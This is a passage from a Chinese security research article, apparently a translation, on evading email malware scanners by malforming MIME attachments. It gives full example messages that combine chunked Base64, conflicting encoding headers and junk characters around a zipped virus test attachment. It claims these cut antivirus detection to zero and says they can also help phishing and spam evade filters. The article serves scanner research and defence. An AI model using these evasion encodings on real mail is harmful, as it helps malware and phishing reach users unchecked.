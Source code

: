 病毒附加

```
--foo
Content-type: application/zip; name=whatever.zip
Content-Transfer-Encoding: base64
Content-Transfer-Encoding: quoted-printable

UEs=AwQ=FAA=AgA=CAA=EUo=jkk=PM8=UWg=RgA=AAA=RAA=AAA=CQA=AAA=ZWk=Y2E=ci4=
Y28=bYs=MPU=Vww=UHU=cAw=iDY=iQk=iIo=MDU=0Qg=iNM=NHc=dtY=NK8=VXE=9XQ=dgw=
0g0=DnE=9HM=cQw=ctE=dfQ=C/E=DPM=DAo=DdY=DXE=DQ4=0XU=8/Q=cVU=VPE=0PY=0AI=
AFA=SwE=AhQ=AxQ=AAI=AAg=ABE=So4=STw=z1E=aEY=AAA=AEQ=AAA=AAk=AAA=AAA=AAA=
AAA=AAA=ALY=gQA=AAA=AGU=aWM=YXI=LmM=b20=UEs=BQY=AAA=AAA=AQA=AQA=NwA=AAA=
bQA=AAA=AAA=
--foo--
```



## 第5步：再次使用垃圾字符

为了混淆最后剩下的产品，我们再次添加第3步中的垃圾字符。这成功地将检测率从36降低到零：

```
From: me@example.com
To: you@example.com
Subject: chunked Base64 combined with junk characters and contradicting CTE
Content-type: multipart/mixed; boundary=foo

--foo
Content-type: text/plain

```

病毒附加

```
--foo
Content-type: application/zip; name=whatever.zip
Content-Transfer-Encoding: base64
Content-Transfer-Encoding: quoted-printable

UEs=.AwQ=.FAA=.AgA=.CAA=.EUo=.jkk=.PM8=.UWg=.RgA=.AAA=.RAA=.AAA=.CQA=.AAA=.
ZWk=.Y2E=.ci4=.Y28=.bYs=.MPU=.Vww=.UHU=.cAw=.iDY=.iQk=.iIo=.MDU=.0Qg=.iNM=.
NHc=.dtY=.NK8=.VXE=.9XQ=.dgw=.0g0=.DnE=.9HM=.cQw=.ctE=.dfQ=.C/E=.DPM=.DAo=.
DdY=.DXE=.DQ4=.0XU=.8/Q=.cVU=.VPE=.0PY=.0AI=.AFA=.SwE=.AhQ=.AxQ=.AAI=.AAg=.
ABE=.So4=.STw=.z1E=.aEY=.AAA=.AEQ=.AAA=.AAk=A.AA=.AAA=.AAA=.AAA=.AAA=.ALY=.
gQA=.AAA=.AGU=.aWM=.YXI=.LmM=.b20=.UEs=.BQY=.AAA=.AAA=.AQA=.AQA=.NwA=.AAA=.
bQA=.AAA=.AAA=.
--foo--
```



## 结论

请注意，这篇文章只是对可以做什么的一个小小的洞察。我发现了更多的bypass，包括内容分析和从附件中提取正确的文件名（以阻止`.exe`，`.scr`等）。MIME的情况与我在HTTP中描述的情况差不多并。这些方法不仅限于欺骗恶意软件分析。通过将这些方法应用于向用户显示的文本内容，它们还可用于欺骗网络钓鱼和垃圾邮件检测。例如，它们可用于使分析看到乱码或使其分析错误的MIME部分，但将邮件显示为最终用户的预期。

审核人：yiwang   编辑：边边
